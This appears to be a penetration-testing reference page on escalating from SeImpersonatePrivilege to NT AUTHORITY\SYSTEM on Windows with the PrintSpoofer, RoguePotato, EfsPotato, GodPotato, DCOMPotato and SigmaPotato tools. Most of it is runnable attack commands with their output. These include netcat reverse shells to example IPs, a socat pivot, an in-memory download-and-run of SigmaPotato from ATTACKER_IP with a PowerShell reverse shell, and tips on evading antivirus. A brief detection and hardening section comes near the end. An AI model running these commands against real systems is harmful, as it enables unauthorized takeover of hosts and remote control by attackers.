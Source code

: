 # RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato

> [!WARNING]
> **JuicyPotato doesn't work** on Windows Server 2019 and Windows 10 build 1809 onwards. However, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato)**,** [**EfsPotato**](https://github.com/zcgonvh/EfsPotato)**,** [**DCOMPotato**](https://github.com/zcgonvh/DCOMPotato)** can be used to **leverage the same privileges and gain `NT AUTHORITY\SYSTEM`** level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

> [!TIP]
> A modern alternative frequently maintained in 2024–2025 is SigmaPotato (a fork of GodPotato) which adds in-memory/.NET reflection usage and extended OS support. See quick usage below and the repo in References.

Related pages for background and manual techniques:

[[seimpersonate-from-high-to-system.md]]

[[from-high-integrity-to-system-with-name-pipes.md]]

[[privilege-escalation-abusing-tokens.md]]

## Requirements and common gotchas

All the following techniques rely on abusing an impersonation-capable privileged service from a context holding either of these privileges:

- SeImpersonatePrivilege (most common) or SeAssignPrimaryTokenPrivilege
- High integrity is not required if the token already has SeImpersonatePrivilege (typical for many service accounts such as IIS AppPool, MSSQL, etc.)

Check privileges quickly:

```cmd
whoami /priv | findstr /i impersonate
```

Operational notes:

- PrintSpoofer needs the Print Spooler service running and reachable over the local RPC endpoint (spoolss). In hardened environments where Spooler is disabled post-PrintNightmare, prefer RoguePotato/GodPotato/DCOMPotato/EfsPotato.
- RoguePotato requires an OXID resolver reachable on TCP/135. If egress is blocked, use a redirector/port-forwarder (see example below). Older builds needed the -f flag.
- EfsPotato/SharpEfsPotato abuse MS-EFSR; if one pipe is blocked, try alternative pipes (lsarpc, efsrpc, samr, lsass, netlogon).
- Error 0x6d3 during RpcBindingSetAuthInfo typically indicates an unknown/unsupported RPC authentication service; try a different pipe/transport or ensure the target service is running.

## Quick Demo

### PrintSpoofer

```bash
c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```

Notes:
- You can use -i to spawn an interactive process in the current console, or -c to run a one-liner.
- Requires Spooler service. If disabled, this will fail.

### RoguePotato

```bash
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999
```

If outbound 135 is blocked, pivot the OXID resolver via socat on your redirector:

```bash
# On attacker redirector (must listen on TCP/135 and forward to victim:9999)
socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999

# On victim, run RoguePotato with local resolver on 9999 and -r pointing to the redirector IP
RoguePotato.exe -r REDIRECTOR_IP -e "cmd.exe /c whoami" -l 9999
```

### SharpEfsPotato

```bash
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/c56e1f1f-f91c-4435-85df-6e158f68acd2/\c56e1f1f-f91c-4435-85df-6e158f68acd2\c56e1f1f-f91c-4435-85df-6e158f68acd2
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\temp>type C:\temp\w.log
nt authority\system
```

### EfsPotato

```bash
> EfsPotato.exe "whoami"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: NT Service\MSSQLSERVER
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=aeee30)
[+] Get Token: 888
[!] process with pid: 3696 created.
==============================
[x] EfsRpcEncryptFileSrv failed: 1818

nt authority\system
```

Tip: If one pipe fails or EDR blocks it, try the other supported pipes:

```text
EfsPotato <cmd> [pipe]
  pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)
```

### GodPotato

```bash
> GodPotato -cmd "cmd /c whoami"
# You can achieve a reverse shell like this.
> GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

Notes:
- Works across Windows 8/8.1–11 and Server 2012–2022 when SeImpersonatePrivilege is present.

### DCOMPotato

![image](https://github.com/user-attachments/assets/a3153095-e298-4a4b-ab23-b55513b60caa)

DCOMPotato provides two variants targeting service DCOM objects that default to RPC_C_IMP_LEVEL_IMPERSONATE. Build or use the provided binaries and run your command:

```cmd
# PrinterNotify variant
PrinterNotifyPotato.exe "cmd /c whoami"

# McpManagementService variant (Server 2022 also)
McpManagementPotato.exe "cmd /c whoami"
```

### SigmaPotato (updated GodPotato fork)

SigmaPotato adds modern niceties like in-memory execution via .NET reflection and a PowerShell reverse shell helper.

```powershell
# Load and execute from memory (no disk touch)
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData("http://ATTACKER_IP/SigmaPotato.exe"))
[SigmaPotato]::Main("cmd /c whoami")

# Or ask it to spawn a PS reverse shell
[SigmaPotato]::Main(@("--revshell","ATTACKER_IP","4444"))
```

## Detection and hardening notes

- Monitor for processes creating named pipes and immediately calling token-duplication APIs followed by CreateProcessAsUser/CreateProcessWithTokenW. Sysmon can surface useful telemetry: Event ID 1 (process creation), 17/18 (named pipe created/connected), and command lines spawning child processes as SYSTEM.
- Spooler hardening: Disabling the Print Spooler service on servers where it isn’t needed prevents PrintSpoofer-style local coercions via spoolss.
- Service account hardening: Minimize assignment of SeImpersonatePrivilege/SeAssignPrimaryTokenPrivilege to custom services. Consider running services under virtual accounts with least privileges required and isolating them with service SID and write-restricted tokens when possible.
- Network controls: Blocking outbound TCP/135 or restricting RPC endpoint mapper traffic can break RoguePotato unless an internal redirector is available.
- EDR/AV: All of these tools are widely signatured. Recompiling from source, renaming symbols/strings, or using in-memory execution can reduce detection but won’t defeat solid behavioral detections.

## References

- [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
- [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato)
- [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
- [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)
- [https://github.com/zcgonvh/DCOMPotato](https://github.com/zcgonvh/DCOMPotato)
- [https://github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)
- [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)

